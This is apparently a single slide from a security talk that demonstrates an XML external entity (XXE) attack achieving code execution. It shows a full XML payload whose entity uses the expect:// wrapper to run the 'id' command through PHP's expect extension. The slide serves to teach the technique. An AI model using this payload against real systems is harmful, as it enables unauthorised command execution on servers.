

# XXE Example #3: Code Execution
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>

“expect” is a PHP extension allows interaction with processes through PTY.